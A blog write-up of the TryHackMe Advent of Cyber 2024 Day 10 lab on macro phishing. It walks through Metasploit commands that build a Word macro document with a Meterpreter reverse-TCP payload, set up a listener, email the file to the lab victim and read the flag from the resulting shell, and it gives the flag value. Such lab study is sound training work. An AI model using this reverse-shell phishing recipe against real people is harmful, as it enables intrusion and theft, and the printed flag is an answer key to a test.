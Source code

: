 ```yaml
---
title: "Advent of Cyber - Day 10 Phishing"
date: 2024-12-19 12:00:00 -500 
categories: [Advent of Cyber - Tryhackme, Day 10]
tags: [siem,exploit,flags,tryhackme,pentestingl,xxe]
author: Christoph K
---
```

[Advent of Cyber - Day 10  ](https://tryhackme.com/r/room/adventofcyber2024)


## Learning Objectives

- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro 


### Phishing Attacks 

Security is as strong as the weakest link! Often the human is the weakest link in this chain. That is where `Phishing` comes into place. It has a similar meaning like the word `fishing`. It works with `bait`to a usually large group of target users. Furthermore attacker often craft their messages with a sense of `urgency` so the user should take immediate action without thinking critically. 

The goal is to steal personal information or instlaling malware, usually by convincing the target user to fill out a form, open a file or click a link. 


### Macros

The needs of MS Office users can be vastly different, and there is no way that a default installation would cater to all of these needs. In particular, some users find themselves repeating the same tasks, such as formatting and inserting text or performing calculations. Consider the example of number-to-words conversion where a number such as “1337” needs to be expressed as “one thousand three hundred thirty-seven”. It would take hours to finish if you have hundreds of numbers to convert. Hence, there is a need for an automated solution to save time and reduce manual effort.

In computing, a macro refers to a set of programmed instructions designed to automate repetitive tasks. MS Word, among other MS Office products, supports adding macros to documents. In many cases, these macros can be a tremendous time-saving feature. However, in cyber security, these automated programs can be hijacked for malicious purposes.

To add a macro to an MS Word document for instance, we click on the View menu and then select Macros as pointed out by 1 and 2 in the screenshot below. We should specify the name of the macro and specify that we want to save it in our current document, as indicated by 3 and 4. Finally, we press the Create button.


## Tasks
- What is the flag value inside the flag.txt file that’s located on the Administrator’s desktop?



### What is the flag value inside the flag.txt file that’s located on the Administrator’s desktop?


First we build a malicious macro embedded in a MS Office document. We can use `metasploit` to do that. 

First we want to create a `tcp reverse connection`. Therefore we use following payload: 


- We used `set payload` for specify the payload we want to use 
- `use exploit` is the exploit we want to use, in this case `macros`


```bash

msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set LHOST 10.11.110.106
LHOST => 10.11.110.106
msf6 exploit(multi/fileformat/office_word_macro) > set LPORT 4444
LPORT => 4444
```

Next step is, we set the `parameters` for `LHOST`and `LPORT`. This is our system! We specify the parameters for the `reverse_tcp` connection, where to connect and which port to use!

```bash
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.11.110.106    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


```
And now we use `exploit` to create such file. 

``` bash

msf6 exploit(multi/fileformat/office_word_macro) > exploit

[*] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /home/admin/.msf4/local/msf.docm
msf6 exploit(multi/fileformat/office_word_macro) >
```

We have now created a malicious file with a `tcp reverse connection`. 

Path: `home/admin/.msf4/local/msf.docm`


Now lets prepare our `listener`via `metasploit`:

```bash

msf6 exploit(multi/fileformat/office_word_macro) > use multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.110.106
LHOST => 10.11.110.106
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444

.
.
.
```

Now our `listener` listens to the Port `4444` and our `IP address`.

Our victom has to click the link now. For that we connect to the mailserver and send the macro file to the user.

![mail](assets/img/tryhackme/cyberadvent/day10/01.png )


Now we press `exploit` in our `metasploit session`:

```bash


[*] Started reverse TCP handler on 10.11.110.106:4444
[*] Sending stage (176198 bytes) to 10.10.102.140
[*] Meterpreter session 1 opened (10.11.110.106:4444 -> 10.10.102.140:49940) at 2024-12-22 15:26:09 +0100

meterpreter >
```

We have a connection to the victim! Now we search the flag:


```bash

meterpreter > cd C:/Users/Administrator/Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  527   fil   2016-06-21 17:36:17 +0200  EC2 Feedback.website
100666/rw-rw-rw-  554   fil   2016-06-21 17:36:23 +0200  EC2 Microsoft Windows Guide.website
100666/rw-rw-rw-  282   fil   2021-03-17 16:13:27 +0100  desktop.ini
100666/rw-rw-rw-  23    fil   2024-11-12 04:42:45 +0100  flag.txt

meterpreter > cat flag.txt
THM{PHISHING_CHRISTMAS}meterpreter >
```

Answer:`THM{PHISHING_CHRISTMAS}` 

### Thoughts

Very nice concept and nice teaching how to create a `reverse tcp connection` into a word file via `metasploit` and send this as mail to a victim! 
Thanks for the fun room! 